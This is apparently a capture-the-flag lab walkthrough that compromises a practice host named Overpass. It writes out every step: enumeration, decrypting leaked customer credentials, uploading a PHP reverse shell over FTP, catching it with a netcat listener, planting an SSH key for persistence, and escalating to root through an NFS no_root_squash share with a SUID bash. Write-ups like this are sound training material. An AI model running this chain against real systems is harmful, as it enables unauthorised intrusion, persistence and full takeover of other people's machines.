


Target: 10.10.201.13

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.201.13

Nmap scan report for 10.10.201.13
Host is up (0.22s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.201.13/FUZZ

backups                 [Status: 301, Size: 236, Words: 14, Lines: 8]
```

checking index


checking /backups



unzipping backup
```
$ unzip backup.zip   

Archive:  backup.zip
 extracting: CustomerDetails.xlsx.gpg  
  inflating: priv.key
```

decrypting CustomerDetails
```
$ gpg --import priv.key  

gpg: key C9AE71AB3180BC08: public key "Paradox <paradox@overpass.thm>" imported
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

$ gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx

gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
      "Paradox <paradox@overpass.thm>"
```

viewing the CustomerDetails



Loot:

`paradox:ShibesAreGreat123`

`0day:OllieIsTheBestDog`

`muirlandoracle:A11D0gsAreAw3s0me`

trying found creds in ftp
```
$ ftp 10.10.201.13

Connected to 10.10.201.13.
220 (vsFTPd 3.0.3)
Name (10.10.201.13:kali): paradox
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 48       48             24 Nov 08 21:25 backups
-rw-r--r--    1 0        0           65591 Nov 17 20:42 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17 20:42 index.html
-rw-r--r--    1 0        0             576 Nov 17 20:42 main.css
-rw-r--r--    1 0        0            2511 Nov 17 20:42 overpass.svg
226 Directory send OK.
```

### Findings:Looking for attack vectors

FTP can be accessed through the credentials paradox:ShibesAreGreat123 and in / uploaded files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.php
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
<snip>
```

uploading php reverse shell
```
ftp> put trustme.php

local: trustme.php remote: trustme.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (58.8492 MB/s)
```

opening a nc listener on port 8888
```
$ nc -lnvp 8888
```

accessing uploaded file
```
curl http://10.10.201.13/trustme.php
```

```
id 

uid=48(apache) gid=48(apache) groups=48(apache)
```

```
find / 2>/dev/null | grep flag

/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/vif-0/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/usr/bin/pflags
/usr/sbin/grub2-set-bootflag
/usr/share/man/man1/grub2-set-bootflag.1.gz
/usr/share/httpd/web.flag

cat /usr/share/httpd/web.flag

<redacted>
```


## Lateral Movement:

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

enumerating users
```
bash-4.4$ cd /home

bash-4.4$ ls

james  paradox
```

testing for password re-use
```
bash-4.4$ su - paradox

[paradox@localhost ~]$ id

uid=1001(paradox) gid=1001(paradox) groups=1001(paradox)
```

finding a stable connection
```
[paradox@localhost .ssh]$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDp27VtKe9hprCQORIfRvjTarC2RYPI1HEWfJb8b2jjLK6ThxUMm+7Wm1eRsQDu0a4+heGnDrR+ePs+lJG8Nxpt9/AcsQdjJ0MhmRHaEvh5i+/XJkrCG/SmBpJpEbmpQsaLMJVCRzeGOowFwIhJxqSWQgJgz/Ji0xKRaf3P5lGYM/+Hxz8mRLgRMfKf3TtGYr/H4rFTB1fgq7tKFUqu57hj5NdeYy708nD/cZcWqyV1I+wNvpPoJKUAJ5GlL0NfGQgsKFYZkiaRODTmy28xw5YzFgw10n5j/n/5LdS3Nyd238+gmPMlQ1lNqM3ahyZUOGZQnN/2nx83KVD8yDhEOn271ao1B91d08BPn7yuLS1866b9fSH/CCjo0JHQ4zjf0VTErEfO+tmS38OiW/WjQjc2S1Jo2oEXGSFHyD3weAoLNLBiQgHkaUBsE8O3JAZuPB78TQc8eiOunDCxwzyRHizBrxFNtT9Ge8XCS/gSX/xlXpUdE7+VaTdCLerSIkyeTEM= kali@kali' >> authorized_keys
```

conneting through ssh
```
$ ssh paradox@10.10.201.13 -i paradox
```

running linpeas
```
[paradox@localhost ~]$ ./linpeas.sh

<snip>
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe             
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)   
<snip>
```

[exploiting no_root_squash blog](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

following these commands
```
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell


and 


[root@pentest]# showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

showing rpc port
```
[paradox@localhost ~]$ rpcinfo -p

   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100005    2   tcp  20048  mountd
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100024    1   udp  48118  status
    100024    1   tcp  43701  status
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100021    1   udp  49438  nlockmgr
    100021    3   udp  49438  nlockmgr
    100021    4   udp  49438  nlockmgr
    100021    1   tcp  32839  nlockmgr
    100021    3   tcp  32839  nlockmgr
    100021    4   tcp  32839  nlockmgr
```

port forwarding through ssh
```
ssh paradox@10.10.201.13 -i paradox -L 2049:localhost:2049

ssh paradox@10.10.201.13 -i paradox -L 111:localhost:111

ssh paradox@10.10.201.13 -i paradox -L 20048:localhost:20048
```

showmount
```
$ showmount -e localhost    

Export list for localhost:
/home/james *
```

mounting dir
```
$ mkdir /tmp/pe

$ sudo mount -t nfs -o nolock localhost:/home/james /tmp/pe

$ cd /tmp/pe
```

finding a stable connection
```
$ ls -la

total 20
drwx------  4 kali kali  126 May  2 18:16 .
drwxrwxrwt 17 root root 4096 May  3 02:09 ..
lrwxrwxrwx  1 root root    9 Nov  9 05:45 .bash_history -> /dev/null
-rw-r--r--  1 kali kali   18 Nov  9  2019 .bash_logout
-rw-r--r--  1 kali kali  141 Nov  9  2019 .bash_profile
-rw-r--r--  1 kali kali  312 Nov  9  2019 .bashrc
drwx------  2 kali kali   44 May  2 17:52 .gnupg
drwx------  2 kali kali   61 Nov  8 10:20 .ssh
-rw-------  1 kali kali   38 Nov 18 05:15 user.flag

$ cd .ssh

$ ls -la

total 12
drwx------ 2 kali kali   61 Nov  8 10:20 .
drwx------ 4 kali kali  126 May  2 18:16 ..
-rw------- 1 kali kali  581 Nov  8 10:20 authorized_keys
-rw------- 1 kali kali 2610 Nov  8 10:20 id_rsa
-rw-r--r-- 1 kali kali  581 Nov  8 10:20 id_rsa.pub
```

connecting through ssh
```
$ ssh james@10.10.201.13 -i id_rsa      

[james@localhost ~]$ id

uid=1000(james) gid=1000(james) groups=1000(james)
```

```
$  cat user.flag

<redacted>
```


## Priv Escalations:

on attacker
```
$ sudo cp /bin/bash .

$ sudo chmod +s bash
```

on victim
```
[james@localhost ~]$ ./bash -p

./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)

bash-5.1# id

uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),1000(james)
```

```
bash-5.1# cd /root

bash-5.1# cat root.flag

<redacted>
```
